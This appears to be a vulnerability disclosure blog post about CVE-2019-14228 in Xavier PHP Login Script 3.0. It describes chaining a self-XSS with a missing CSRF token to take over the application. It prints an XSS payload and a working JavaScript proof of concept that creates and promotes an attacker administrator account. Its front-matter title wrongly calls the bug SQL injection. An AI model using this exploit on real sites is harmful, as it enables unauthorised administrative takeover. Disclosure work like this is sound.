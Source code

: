 ```yaml
---
layout: post
title: BigProf-Software Online Invoicing System SQL Injection 
tags: [CVE-Writeup, SQLi]
author: Ingredous Labs
comment: true
---
```


```
Affected Software Name: Xavier PHP Login Script & Management Panel
Affected Version: 3.0
Vulnerability: Application Takeover via Self-XSS + CSRF Chain
CVE ID: CVE-2019-14228
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14228
```

# Introduction

Xavier 3.0 PHP Login Script & Management Panel is developed by Angry Frog and could be purchased by clicking [here](https://www.angry-frog.com/php-login-script/).

As stated on their website:

> The Xavier PHP Login Script is a user management system allowing the registration and administration of users to your website. 

# Exploitation Details

Xavier PHP Login Script allows Administrators to create new users by using the Management Panel. During a blackbox assessment, it was observed that causing the registration to fail such as using a password which doesn't meet the complexity policy would cause the application to reflect the username in the error message.

Attempting to register a username which contains Javascript such as `<img src=/ onerror=alert(1)>`, would cause the Javascript to be evaluated and executed by the browser as no sanitization is being performed thhus resulting in XSS (Cross-Site-Scripting.)

Unfortunately the impact here is completely mitigated as this would be a case of Self-XSS as the attacker would be required to either social engineer the Victim Administrator into inputting this payload along with causing the form to error.

However upon further observation, it was noticed that the endpoint which is responsible for creating a new user was missing CSRF protection. As seen in the request, there is no CSRF protection in the form of a token being passed along in the request nor was the application utilizing Same-Site Cookies.

With this, an Attacker is able to craft a proof of concept and host it on their website which upon being visited by the Victim Admin will have the browser follow the request and thus create a new user. However one caveat lies here and that is when a new user is created, they are automatically placed into the "Registered Users" aka the lowest privilege group. Long story short, an attacker would be able to achieve the same impact by using the self-registration feature and registering their own account. 

In order to upgrade a user's privileges, an Admin will need to browse to the Management Panel and promote the user. The endpoint which is responsible for promoting the user utilizes CSRF protection thus making it impossible to promote the Attacker's user to Admin via the same vector (CSRF).

One last piece remains and that is the Self-XSS. With the CSRF an attacker is able to leverage the Self-XSS into being remotely exploitable in the form of Reflected XSS. As an attacker is able to execute Javascript in the context of the Victim's browser, they are now able to bypass the Same Origin Policy (SOP) which therefore would allow the attacker to bypass the CSRF protection found on the endpoint which is responsible for promoting a user's privileges by including specially crafted Javascript found in the Proof of Concept section below. 

Upon the Javascript being executed in the context of the Victim Admin's browser, it will create a new account for the attacker and promote it to Administrator which is the highest privilege offered by the application thus allowing the attacker to effectively takeover the application by chaining together Self-XSS + CSRF. 


# Proof of Concept

~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=P4ssw0rd&conf_pass=P4ssw0rd& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

Upon this being executed, a new Administrator with the username of Hackerman and password of P4ssw0rd will created.